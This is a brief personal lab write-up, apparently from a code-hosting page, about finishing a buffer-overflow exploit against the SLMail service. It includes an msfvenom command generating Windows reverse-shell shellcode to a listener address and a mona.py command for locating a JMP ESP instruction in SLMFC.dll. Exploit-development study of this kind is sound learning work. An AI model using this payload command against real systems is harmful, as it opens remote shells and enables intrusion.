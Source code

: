 When you create your shellcode and specify `EXITFUNC=thread` the threaded "SLMail" process won't crash completely when exiting the "reverse-shell".

`msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.1.18 LPORT=4444 -b '\x00\x0a\x0d' EXITFUNC=thread -f python`

### JMP ESP!

I played a bit with "Immunity Debugger" in combination with the extention "mona.py" instead of "OllyDbg".
With "mona.py" I was able to find a `JMP ESP` in `SLMFC.dll` with this command:

`!mona find -type instr -s "jmp esp" -m slmfc.dll`

I was curious why "mona" was able to find 19! of those while the search I used, didn't. So I poked around and noticed that my old search
was done in an address space that differed from the ones where "mona" found the `JMP ESP` instructions.

So I think "mona" searches all sections, while the search command does not.

I was able to find the instruction manually in the `.rdata` section of the `.dll`.

![jmpesp-found2](jmpesp-found2.png)

After updating and testing my exploit, I can say: It's working like a charm!
No crashing service anymore and it survives reboots now too.

Till next time.

x41

[[Top]](#top)

